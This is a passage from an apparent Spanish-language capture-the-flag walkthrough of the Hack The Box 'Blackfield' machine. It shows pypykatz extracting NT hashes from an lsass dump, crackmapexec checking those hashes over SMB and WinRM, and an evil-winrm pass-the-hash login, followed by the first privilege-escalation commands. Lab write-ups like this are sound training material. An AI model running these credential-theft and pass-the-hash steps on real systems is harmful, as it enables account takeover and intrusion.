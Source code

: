 Nos hemos descargados un fichero domain_users y un fichero domain_admins. Podemos ver un usuario **iPownedYourCompany** que nos hace
pensar que esta maquina a sido comprometida anteriormente. Tambien vemos un directorio memory_analysis y un fichero nos llama la atencion.
Este fichero es el `lsass.zip`. Nos llama la atencion porque hay una utilidad `pypykatz` con la cual podriamos ver informaciones relevantes dumpeadas
a nivel de memoria. 

```bash
unzip lsass.zip
pypykatz lsa minidump lsass.DMP
```

Aqui tenemos informaciones como usuarios y contraseña **NT** hasheadas. Los NT Hashes nos permiten hacer **PassTheHash** que simplemente seria connectarnos
con el usuario poniendo la contraseña hasheada (No se necesita conocer la contraseña en este caso).

Vemos el hash del usuario Administrator. Controlamos esto con crackmap exec.

```bash
crackmapexec smb 10.10.10.192 -u 'Administrator' -H '7f1e4ff8c5a8e6b5fcae2d9c0472cd62'
```

Pero vemos que esta credencial no es valida. Vemos otro usuario `svc_backup` lo miramos.

```bash
crackmapexec smb 10.10.10.192 -u 'svc_backup' -H '9659d1d1dcd9250115e2206d9f49400d'
```

Esta credencial esta valida. Intentamos ver si nos podemos conectar con winrm

```bash
crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H '9659d1d1dcd9250115e2206d9f49400d'
```

Aqui vemos que este usuario es Pwn3d!

```bash
evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9659d1d1dcd9250115e2206d9f49400d'

whoami 
#Output
blackfield\svc_backup

ipconfig
#Output
10.10.10.192
```

Estamos conectados como el usuario svc_backup y podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd C:\Users\Administrator
dir
cd Desktop
dir
type root.txt
whoami /priv
```
